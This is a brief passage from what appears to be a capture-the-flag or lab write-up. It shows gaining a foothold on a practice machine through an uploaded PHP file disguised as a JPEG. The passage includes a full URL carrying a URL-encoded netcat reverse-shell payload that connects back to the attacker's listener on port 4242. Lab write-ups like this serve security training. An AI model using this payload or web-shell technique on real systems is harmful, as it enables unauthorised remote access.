

reverse shell
here Ill grab the netcatt OpenBSD reverse shell from payloadallthethings
and url encode it with Burp

set this value =miao and set up a listener on port 4242
http://10.10.10.146/uploads/10_10_14_62.php.jpeg?miao=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%36%32%20%34%32%34%32%20%3e%2f%74%6d%70%2f%66

and we have our foothold!